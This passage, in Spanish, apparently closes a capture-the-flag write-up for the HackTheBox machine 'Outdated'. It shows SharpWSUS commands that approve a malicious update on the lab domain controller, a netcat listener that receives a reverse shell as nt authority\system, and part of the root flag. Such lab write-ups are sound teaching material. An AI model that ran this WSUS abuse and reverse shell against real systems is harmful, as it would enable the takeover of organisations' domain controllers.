[*] SharpWSUS.exe delete /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN /groupname:"Group Name"                                                                     

[*] Create complete
```

Ahora solo hay que aprobar la actualización para desplegarla en `dc.outdated.htb` 

```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> .\SharpWSUS.exe approve /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:dc.outdated.htb /groupname:"pwneeedhahaha"          

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: pwneeedhahaha
Added Computer To Group
Approved Update

[*] Approve complete
```

Y ahora si nos ponemos en escucha...
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.239] 50069
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Podemos leer la flag de `root`
```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ed306fa59ff2e6c...
```

Happy Hacking! 🚀
